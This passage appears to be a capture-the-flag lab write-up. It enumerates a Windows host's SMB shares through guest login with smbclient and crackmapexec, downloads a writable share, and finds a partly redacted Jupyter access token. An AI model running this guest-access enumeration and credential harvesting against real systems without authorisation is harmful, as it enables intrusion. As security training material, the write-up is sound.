 # Port 445 (SMB)

In the nmap output we can see a port 445 for smb so i tried the Guest login:
```bash
smbclient -L \\\\10.10.134.105\\ -U 'Guest' -p ''
```
output:
```bash
Password for [WORKGROUP\Guest]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        datasci-team    Disk      
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.134.105 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
we can actually login and see some shares available.
<br>

With crackmap i checked which share i had access to:
```bash
crackmapexec smb 10.10.134.105 -u 'Guest' -p '' --shares
```
output:
```bash
SMB         10.10.134.105   445    DEV-DATASCI-JUP  [*] Windows 10.0 Build 17763 x64 (name:DEV-DATASCI-JUP) (domain:DEV-DATASCI-JUP) (signing:False) (SMBv1:False)
SMB         10.10.134.105   445    DEV-DATASCI-JUP  [+] DEV-DATASCI-JUP\Guest: 
SMB         10.10.134.105   445    DEV-DATASCI-JUP  [+] Enumerated shares
SMB         10.10.134.105   445    DEV-DATASCI-JUP  Share           Permissions     Remark
SMB         10.10.134.105   445    DEV-DATASCI-JUP  -----           -----------     ------
SMB         10.10.134.105   445    DEV-DATASCI-JUP  ADMIN$                          Remote Admin
SMB         10.10.134.105   445    DEV-DATASCI-JUP  C$                              Default share
SMB         10.10.134.105   445    DEV-DATASCI-JUP  datasci-team    READ,WRITE      
SMB         10.10.134.105   445    DEV-DATASCI-JUP  IPC$            READ            Remote IPC
```

We can see that we have access to both either _READ_ and _WRITE_ on _datasci-team_ share.
<br>

So i jump inside the shares and i dowloaded all the files from it:
```bash
smbclient \\\\10.10.134.105\\datasci-team -u 'Guest'
```
to download recursively i typed this(inside the smb interactive shell):
```smb
mget *
```
among the files that i downloaded i found a strange file named _jupyter-token.txt_ so i esaminated its content:
```bash
cat jupyter-token.txt
```
output:
```
067470c5[REDACTED]d78a
```
